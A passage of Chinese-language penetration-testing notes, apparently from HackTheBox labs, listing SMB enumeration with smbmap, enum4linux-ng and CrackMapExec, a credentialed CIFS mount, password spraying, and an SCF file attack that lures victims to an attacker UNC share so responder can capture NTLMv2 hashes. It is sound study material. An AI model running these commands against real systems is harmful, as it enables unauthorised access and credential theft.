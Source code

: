 ```shell
smbmap -H 10.129.14.128 -r notes
```
```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```
- enum4linux-ng
```shell
 ./enum4linux-ng.py 10.10.11.45 -A -C
```
###  CrackMapExec 
>[!warning ] 小節重點
當需要知道所有資料夾裡面有甚麼東西的時候使用，spider_plur模組會自動幫你抓一遍
```
crackmapexec smb 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -M spider_plus
```
## 當因為檔案太大，導致無法下載

```
sudo mount -t cifs -o 'username=audit2020,password=password123@' //10.10.10.192/forensic /home/kali/Desktop/HTB/blackfield
```
## 攻擊手法 
>[!warning ] 小節重點
>手法不多，但是可以參考
### SMB Share – SCF File Attacks
如果有人在smb裡面點擊的話，可以讓她點scf，因為可以讓她存取.ico檔案，就有機會可以讀到NTLMv2
- file.scf
```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
- responder
```
sudo responder -I tun0
```
### 暴力破解SMB 
```shell
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```
# SQL Databases
## Oracle  Database 
>[!warning ] 小節重點
>這篇的資料來源是Silo靶機
### odat
>[!warning ] 小節重點
>odat是針對Oracle Database的攻擊工具 
